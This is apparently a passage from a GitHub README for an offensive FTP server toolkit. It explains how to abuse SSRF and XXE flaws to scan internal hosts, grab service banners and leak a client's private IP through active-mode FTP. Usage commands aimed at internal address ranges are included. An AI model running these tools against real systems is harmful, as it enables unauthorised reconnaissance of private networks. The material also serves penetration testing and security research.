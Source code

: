 Since we need a state to be kept between the two SSRF calls, it should not be possible to exfiltrate banners through basic SSRF.
But is possible to achieve this with the SSRF through XXE which is implemented in the xxe_bannerFTP.sh

Usage:

For the non-blind SSRF, we simply use the pasvaggresvFTP:
```bash
./pasvaggresvFTP.sh -t 10.0.0.0/25 -p 100-200 -x ./dispatcher_examples/target_ssrf_nonblind_banner.sh -q 20
```

Testing the blind SSRF through XXE using a dockerized java client:
```bash
./xxe_bannerFTP.sh -t 17.32.208.224/30 -p 140-145 -x ./dispatcher_examples/testing_xxe_blind_java_banner.sh -q 20
```

Extracting the banners of a target network:
```bash
./xxe_bannerFTP.sh -t 10.0.0.0/25 -p 100-200 -x ./dispatcher_examples/target_xxe_blind_banner.sh -q 20
```

It is noted that the FTP client will normally wait for the data channel connection to time out before returning the data. To avoid this delay, the parameter q is passed to the script which indicates the number of bytes the client should expect on the data channel. This number is passed in the response of the SIZE and RETR commands and allows the client to end the connection as soon as the specified numbers of bytes are received.

<p align="center">
  <img width="580" src="images/banner.gif"/>
</p>

## Private IP Disclosure (ssrf_leakyftp.sh):

Here we try to have the client use the active mode to establish the data channel by rejecting any commands that attempt to establish a passive mode channel. In active mode (e.g. commands PORT, EPRT, LPRT) the client is expected to send the IP where it listens to receive the requested data. That IP should be the private IP on the interface used to establish the control channel with the FTP server.

Usage:
```bash
./leakyFTP
```
